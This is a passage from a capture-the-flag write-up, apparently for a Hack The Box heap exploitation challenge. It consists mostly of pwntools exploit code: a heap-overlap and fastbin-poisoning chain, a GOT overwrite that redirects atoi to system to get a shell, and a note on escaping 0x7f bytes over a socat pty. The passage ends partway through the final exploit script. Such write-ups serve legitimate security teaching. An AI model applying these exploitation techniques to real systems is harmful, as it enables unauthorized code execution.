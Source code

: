 ```py
systemAddress = libcBase + libc.symbols['system']
#overwriting atoi@GOT with system
edit(2, p64(systemAddress))
p.recvrepeat(1)
log.info("Creating a shell")
p.sendline('bash')
p.interactive()
```

For remote, I had to make 2 small adjustments. One issue was with the way my leak was being parsed. Another was that despite having good leaks, it often crashed. Why is this? Well turns out remote has pty enabled with socat, therefore it interprets some of the non printable ASCII bytes as control characters, which isn't what we want (0x7f for example will be treated as a delete). The fix is simple: just escape the 0x7f with a 0x16. 

Here is the final remote exploit:

```py
from pwn import *
import sys

binary = ELF('./chapter1')
libc = ELF('./libc6_2.23-0ubuntu10_amd64.so')
context(arch='amd64')

p = remote('docker.hackthebox.eu', int(sys.argv[1]))

def alloc(size, data):
	p.recvrepeat(0.5)
	p.sendline(str(1))
	p.recvrepeat(0.5)
	p.sendline(str(size))
	p.recvrepeat(0.5)
	p.sendline(data.replace("\x16", "\x16\x16").replace("\x7f", "\x16\x7f"))

def edit(index, data):
	p.recvrepeat(0.5)
	p.sendline(str(2))
	p.recvrepeat(0.5)
	p.sendline(str(index))
	p.recvrepeat(0.5)
	p.sendline(data.replace("\x16", "\x16\x16").replace("\x7f", "\x16\x7f"))

def free(index):
	p.recvrepeat(0.5)
	p.sendline(str(3))
	p.recvrepeat(0.5)
	p.sendline(str(index))

alloc(0x500, 'A' * 0x500)
free(0)
alloc(0x108, 'A' * 0x108)
alloc(0x288, 'B'*0x270 + p64(0x280))
alloc(0x108, 'C'*0x108) 
alloc(0x108, 'D'*0x108)
free(1)
edit(0, 'A' * 0x108 + '\x80\x02')
alloc(0x80, 'E' * 0x80)
alloc(0x60, 'F' * 0x70)
free(1)
free(2)
free(4)
alloc(0x200, 'Z' * 0x80 + p64(0x90) + p64(0x71) + p64(0x60209d))
alloc(0x60, 'G')
```